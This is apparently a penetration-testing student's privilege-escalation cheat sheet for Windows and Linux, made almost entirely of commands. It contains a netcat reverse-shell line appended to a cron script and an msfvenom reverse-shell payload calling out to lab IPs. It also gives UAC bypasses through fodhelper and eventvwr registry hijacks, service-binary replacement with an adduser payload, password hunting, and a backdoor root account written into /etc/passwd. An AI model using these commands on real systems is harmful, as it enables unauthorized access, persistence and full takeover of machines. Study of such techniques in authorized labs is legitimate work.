 ### Windows
```
whoami
net user student
net user
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
findstr /si password *.xml *.ini *.txt 
tasklist /SVC
ipconfig /all
route -print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic service get name,startname
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell -> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\Software\Policies\Microsoft\Windows\Installer

windows-privesc-check2.exe --dump -G

```

### Linux
```
whoami
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
uname -r
arch
ps aux
ip a
/sbin/route
ss -anp
iptables
iptables-save
iptables-restore
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
dpkg -l
mount
cat /etc/fstab
/bin/lsblk
lsmod
/sbin/modinfo libata
find / -writable -type d 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

./unix-privesc-check standard > output.txt

echo >> user_backups.sh 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

```



```
whoami /priv
whoami /groups - check privilege level for uac

net user admin Ev!lpass
powershell.exe Start-Process cmd.exe -Verb runAs - will require accepting UAC prompt



```


```
cd C:\Tools\privilege_escalation\SysinternalsSuite 
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

```
run fodhelper.exe
in process monitor - search fodhelper.exe
reg -> name not found -> HKCU 

HKCU:\Software\Classes\ms-settings\shell\open\command
HKCR:ms-settings\shell\open\command


REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f


UAC Bypass

```
whoami /priv

whoami /groups


C:\users\alice\desktop\sigcheck64.exe -accepteula -a -m .\eventvwr.exe

Did this to get high integrity shell and bypass

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.119.175 LPORT=443 -f exe > shell_443.exe

reg add HKCU\Software\Classes\mscfile\shell\open\command /d C:\users\alice\desktop\shell_443.exe /f

C:\Windows\system32\eventvwr.exe
```


Listing running services on Windows using PowerShell

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

i686-w64-mingw32-gcc adduser.c -o adduser.exe

move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"

move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

dir "C:\Program Files\Serviio\bin\"

wmic service where caption="Serviio" get name, caption, state, startmode

whoami /priv

shutdown /r /t 0

net localgroup administrators

```

### USBPcap

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

driverquery /v

C:\Program Files\USBPcap> type USBPcap.inf

mingw-w64.bat

gcc

gcc --help

```

# Updating /etc/passwd file

```
openssl passwd evil 

echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd 

su root2
```

